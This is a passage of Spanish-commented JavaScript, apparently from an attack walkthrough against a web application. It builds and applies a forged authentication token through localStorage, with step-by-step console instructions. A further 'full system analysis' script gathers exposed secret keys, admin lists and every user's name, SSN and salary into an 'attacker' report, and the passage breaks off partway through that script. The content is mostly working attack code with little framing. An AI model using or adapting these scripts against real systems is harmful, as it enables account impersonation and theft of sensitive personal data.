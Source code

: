 ```javascript
  // Mostrar cómo usar el token
  console.log("💣 PARA USAR EL TOKEN FALSO:");
  console.log("   1. localStorage.setItem('token', '" + fakeToken + "');");
  console.log("   2. localStorage.setItem('user', '" + JSON.stringify(maliciousPayload) + "');");
  console.log("   3. Recarga la página");
  
  // Guardar para uso fácil
  window.maliciousToken = fakeToken;
  window.maliciousPayload = maliciousPayload;
  
  console.log("✅ Token guardado en window.maliciousToken para uso posterior");
  
  return fakeToken;
};

// Función helper para aplicar el token falso
const applyMaliciousToken = () => {
  if (window.maliciousToken && window.maliciousPayload) {
    localStorage.setItem('token', window.maliciousToken);
    localStorage.setItem('user', JSON.stringify(window.maliciousPayload));
    console.log("✅ Token falso aplicado. Recarga la página para usar credenciales falsas.");
  } else {
    console.log("❌ Ejecuta createMaliciousToken() primero");
  }
};

// Ejecutar creación de token falso
createMaliciousToken();

// Para aplicar: applyMaliciousToken();
```

#### **Método 3: Análisis Completo del Sistema**
```javascript
// Script para recopilar toda la información disponible
const fullSystemAnalysis = async () => {
  try {
    // 1. Obtener información del sistema
    const systemInfo = await api.getSystemInfo();
    
    // 2. Obtener lista completa de usuarios
    const allUsers = await api.getAllUsers();
    
    // 3. Compilar análisis completo
    const analysisReport = {
      timestamp: new Date().toISOString(),
      attacker: api.decodeCurrentToken(),
      system: {
        secret_exposed: systemInfo.secret_key,
        debug_enabled: systemInfo.debug_mode,
        backup_date: systemInfo.last_backup,
        admin_list: systemInfo.admin_users
      },
      users: {
        total: allUsers.length,
        admins: allUsers.filter(u => u.role === 'admin'),
        regular_users: allUsers.filter(u => u.role === 'user'),
        total_payroll: allUsers.reduce((sum, u) => sum + (u.profile?.salary || 0), 0),
        sensitive_data: allUsers.map(u => ({
          id: u.id,
          name: u.profile?.fullName,
          ssn: u.profile?.ssn,
          salary: u.profile?.salary,
```